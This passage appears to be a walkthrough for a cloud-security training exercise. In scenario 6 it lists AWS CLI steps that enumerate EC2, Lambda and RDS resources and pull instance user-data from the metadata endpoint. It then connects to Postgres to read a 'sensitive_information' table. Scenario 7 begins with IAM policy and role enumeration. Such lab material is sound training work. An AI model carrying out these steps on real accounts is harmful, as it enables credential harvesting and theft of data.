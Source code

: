 `aws ec2 describe-instances --profile scenario6_username`

### **Conect to EC2 virtual machine**

`ssh -i key.pem ubuntu@<instance ip>`

### **Do from ec2 instance:**

- `aws lambda list-functions --region eu-central-1`

- `aws lambda get-function --function-name sc6-lambda --region eu-central-1`

- `aws rds describe-db-instances --region eu-central-1`

---
### Or use EC2 Metadata
- `curl http://169.254.169.254/latest/user-data`

- `psql -h <rds-instance-address> -U <db_name>> -d <db_user>` or `psql postgresql://<db_user>:<db_password>@<rds-instance-address>:5432/<db_name>`

- `/d`

- `select * from sensitive_information;`

### **Invoke a lambda to complete the scenario_6**

`aws lambda invoke --function-name sc6_complete_<username> --payload '{"key":"usernamexxxxxxxxxxxxxxxx"}' --profile scenario6_username response.json`

> #### ***In case of decoding error use the following format:***

> `aws lambda invoke --function-name sc6_complete_<username> --payload '{"key":"usernamexxxxxxxxxxxxxxxx"}' --profile scenario6_username --cli-binary-format raw-in-base64-out response.json`

CMD:
> `aws lambda invoke --function-name sc6_complete_<username> --payload "{""key"":""usernamexxxxxxxxxxxxxxxx""}" --profile scenario6_username --cli-binary-format raw-in-base64-out response.json` 

---

# **Scenario_7**

  Dashboard  <https://gameday-dashboard.s3.eu-central-1.amazonaws.com/index.html>  

### **Configure your profile**

`aws configure --profile scenario7_<user_id>`

`aws iam list-attached-user-policies --user-name <username_from_mail> --profile scenario7_<user_id>`

`aws iam get-policy-version --policy-arn <user-policy arn> --version-id v1 --profile scenario7_<user_id>`

`aws iam list-roles --profile scenario7_<user_id>`
